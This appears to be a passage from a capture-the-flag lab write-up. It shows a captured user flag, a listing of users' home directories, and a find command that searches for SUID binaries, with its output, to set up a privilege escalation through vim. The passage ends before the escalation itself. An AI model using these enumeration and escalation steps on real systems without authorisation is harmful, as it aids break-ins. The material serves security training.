 
---

### What's the user flag?
- **Answer:** G00d j0b, keep up!
- **Steps to Reproduce:** 

```bash
$ ls
user.txt
$ cat user.txt  
G00d j0b, keep up!
```

---

### Is there any other user in the home directory? What's its name?
- **Answer:** 
- **Steps to Reproduce:** 

```bash
$ cd ..
$ ls
mitch  sunbath
```

---

### What can you leverage to spawn a privileged shell?
- **Answer:** vim
- **Steps to Reproduce:** 
    - Check the files with **SUID** bit set:

    ```bash
    $ find / -perm -u=s 2>/dev/null
    /bin/su
    /bin/ping
    /bin/mount
    /bin/umount
    /bin/ping6
    /bin/fusermount
    /usr/bin/passwd
    /usr/bin/pkexec
    /usr/bin/newgrp
    /usr/bin/chfn
    /usr/bin/sudo
    /usr/bin/gpasswd
    /usr/bin/chsh
    /usr/lib/openssh/ssh-keysign
    /usr/lib/policykit-1/polkit-agent-helper-1
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/xorg/Xorg.wrap
    /usr/lib/snapd/snap-confine
    /usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/sbin/pppd
    ```
    